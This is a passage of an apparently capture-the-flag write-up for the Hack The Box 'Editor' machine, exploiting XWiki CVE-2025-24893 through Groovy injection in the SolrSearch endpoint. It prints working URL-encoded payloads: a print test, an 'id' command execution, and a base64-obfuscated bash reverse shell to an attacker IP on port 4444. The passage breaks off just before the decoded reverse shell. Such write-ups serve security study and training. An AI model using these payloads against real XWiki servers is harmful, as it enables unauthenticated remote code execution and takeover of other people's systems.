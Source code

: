 A quick search for a CVE we find lots of CVEs: 

- CVE-2025-32968: Needs SCRIPT rights to perform a Blind SQLi. Which we don't have for the moment.
- CVE-2025-24893: Unauthenticated user can execute arbitrary code. This might be it.


# Foothold
[Here](https://www.ionix.io/blog/xwiki-remote-code-execution-vulnerability-cve-2025-24893/) is a detailed and informative report on the last CVE.
So, reading more on `CVE-2025-24893` in [here](https://nvd.nist.gov/vuln/detail/CVE-2025-24893), We're on the right path. Confirming using:
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Hello%20from%20search%20text%3A%20%22%20%2B%20%2823%2B19%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Which decodes to this:
```java
}}}{{async async=false}}{{groovy}}println("Hello from search text: " + (23+19)){{/groovy}}{{/async}}
```

This will print out:
![This](assets/htb-editor-2.png)

So, the target is indeed vulnerable and we can gain RCE. Let's test for some system commands:
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Result%3A%20%22%20%2B%20%22id%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```
Which decodes to this:
```java
}}}{{async async=false}}{{groovy}}println("Result: " + "id".execute().text){{/groovy}}{{/async}}
```

Which successfully executes the `id` command:
![here](assets/htb-editor-3.png)

So now, we should be able to get a reverse shell back to our machine:
Here is the payload i used:

```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi41NS80NDQ0IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```
Which decodes to this:
